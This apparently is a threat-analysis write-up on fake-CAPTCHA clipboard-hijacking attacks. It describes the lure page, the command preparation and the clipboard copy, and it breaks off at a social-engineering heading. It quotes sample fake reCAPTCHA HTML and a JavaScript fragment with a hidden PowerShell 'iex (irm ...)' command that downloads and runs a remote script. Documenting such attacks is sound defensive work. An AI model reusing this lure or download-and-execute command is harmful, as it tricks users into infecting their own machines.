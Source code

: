 ### 1. Initial Victim Engagement

Victim is shown a fake CAPTCHA verification UI with Google reCAPTCHA branding

Common elements found:
- Google reCAPTCHA logo image
- Font resources from CDNs
- "I am not a robot" checkbox

**Example Fake CAPTCHA HTML:**
```html
<div class="recaptcha-box">

            <h2>Verify You Are Human</h2>

            <p>Please verify that you are a human to continue.</p>

<div class="container m-p">    

        <div id="checkbox-window" class="checkbox-window m-p block">

            <div class="checkbox-container m-p">

                <button type="button" id="checkbox" class="checkbox m-p line-normal"></button>

            </div>...
```


### 2. Malicious Code Preparation

When user clicks the verification checkbox:

- A 'commandToRun' variable is set with a malicious PowerShell command
- The command is typically obfuscated and often downloads second-stage payloads
- Common download destinations include:


**Example Command Preparation Code:**
```javascript
WindowStyle Hidden -Command \"iex (irm 'https://aatox.com/verify/45.ps1')\""; const commandToRun = "powershell " + htaP...
```


### 3. Clipboard Hijacking

The malicious command is copied to the user's clipboard:

- A temporary textarea element is created
- The command is combined with verification text like "[CHECKMARK] I am not a robot"
- document.execCommand("copy") is used to copy to clipboard
- The temporary element is removed from the DOM

### 4. Social Engineering Component
